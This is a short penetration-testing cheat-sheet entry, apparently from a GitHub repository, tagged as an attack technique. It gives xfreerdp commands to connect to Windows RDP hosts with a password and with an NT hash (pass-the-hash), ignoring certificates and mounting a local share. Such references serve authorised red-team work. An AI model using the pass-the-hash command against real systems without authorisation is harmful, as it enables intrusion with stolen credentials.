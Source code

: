 # xfreerdp

% rdp, windows
#plateform/linux  #target/remote  #protocol/rdp #port/3389 #cat/ATTACK/CONNECT 

##  RDP connect with password
```
xfreerdp /cert:ignore /u:<user> /p:<password> /d:<domain> /v:<ip> /h:1024 /w:1640 /drive:share,<share> +drives
```


## RDP connect with  hash
```
xfreerdp /cert:ignore /u:<user> /pth:<nt_hash> /d:<domain> /v:<ip> /h:1024 /w:1640 /drive:share,<share> +drives
```
